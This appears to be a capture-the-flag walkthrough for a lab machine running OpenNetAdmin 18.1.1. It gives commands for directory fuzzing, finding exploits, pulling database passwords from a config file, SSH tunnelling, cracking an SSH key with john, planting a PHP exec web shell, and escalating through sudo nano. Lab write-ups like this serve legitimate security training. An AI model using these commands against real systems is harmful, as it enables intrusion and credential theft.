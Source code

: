 ### Foothold
##### Fuzz
Try fuzz with different directory list `/usr/share/wordlists/wfuzz/general/big.txt` and `/usr/share/seclists/Discovery/Web-Content/big.txt` if `autorecon` didn't find any of them.

Another one is `/usr/share/wordlists/dirbuster/directory-list-1.0.txt`

Also, pay more attention to 'Create' or 'Login' functions when doing a happy path.

##### Happy Path
1. http://10.129.51.132/music/index.html
2. Click Menu -> Login
3. http://10.129.51.132/ona/
4. The version number of OpenNetAdmin is 18.1.1

```bash
searchsploit OpenNetAdmin
-------------------------------------------------------------- ---------------------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- ---------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution                 | php/webapps/26682.txt
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)  | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                   | php/webapps/47691.sh
------------------------------------------------------------------------------------------------
```

### Pivoting
##### jimmy
When there is a web server. Looking for database credentials would be a good start. Like MySQL.
Eyes on something like 'Config' or 'Local'. from '/var/www/...' perhaps.

And the database name could be googled with the webserver.
Like google opennetadmin (connect) database
https://opennetadmin.com/forum_archive/4/t-85.html

``` 
cat local/config/database_settings.inc.php | grep -i "pass" # Try it and seems password got reused
```

##### joanna aka the hard/interesting part
1. Enumerating from www-data found that a directory `/var/www/internal` belong to jimmy only or simply `find / -user jimmy 2>/dev/null`
2. (Optional) Crack the hash from `index.php` 
3. Find the port that running this service. There are a couple of ways.
```
netstat -tl

netstat -tulpn

netstat -ano | grep tcp

netstat -naep | grep LISTEN | grep -v LISTENING

cat /etc/apache2/sites-enabled/internal.conf
```
4. Without the hash
```
curl -s localhost:52846/main.php
```
5. Using the hash
```
curl -d "username=jimmy&password=Revealed" -X POST http://localhost:52846/main.php
```
or Pivoting through SSH port forwarding.
```
ssh -R 1337:127.0.0.1:52846 kali@targetIP
```
The command above creates a remote SSH tunnel, which forwards all connections from port 1337 on our host to port 52846 on the box. Make sure that the SSH server is running and permits root login(not sure normal kali user works or not). The application can now be accessed by browsing to 
http://127.0.0.1:1337

6. Use the private key
```
/usr/share/john/ssh2john.py key > hash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=ssh hash
# Bonus
cat /usr/share/wordlists/rockyou.txt | grep ninja >> better.txt
```

7. Bonus with the RCE on the 52846 running server
```
echo '<?php echo exec("id");?' > shell.php
curl http://localhost:52846/shell.php
```

### Priv
```
sudo -l
sudo /bin/nano /opt/priv
gtf
```
